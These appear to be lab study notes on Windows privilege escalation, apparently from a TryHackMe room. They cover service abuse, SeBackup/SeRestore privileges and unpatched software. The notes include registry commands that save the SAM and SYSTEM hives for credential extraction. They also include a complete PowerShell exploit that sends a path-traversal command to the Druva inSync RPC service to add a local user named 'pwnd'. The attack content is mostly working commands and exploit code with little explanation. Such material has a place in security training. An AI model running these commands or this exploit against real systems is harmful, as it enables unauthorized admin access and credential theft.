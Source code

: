 ```cmd
sc start "disk sorter enterprise"
```
#### Insecure Service Permissions 

###  Abusing dangerous privileges
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  
[impacket](https://github.com/fortra/impacket)

#### SeBackup / SeRestore  
command: 
```cmd
whoami /priv
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
### Abusing vulnerable software 
#### Unpatched Software 
[plain old Google](https://www.google.com/)

exploit:  
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```


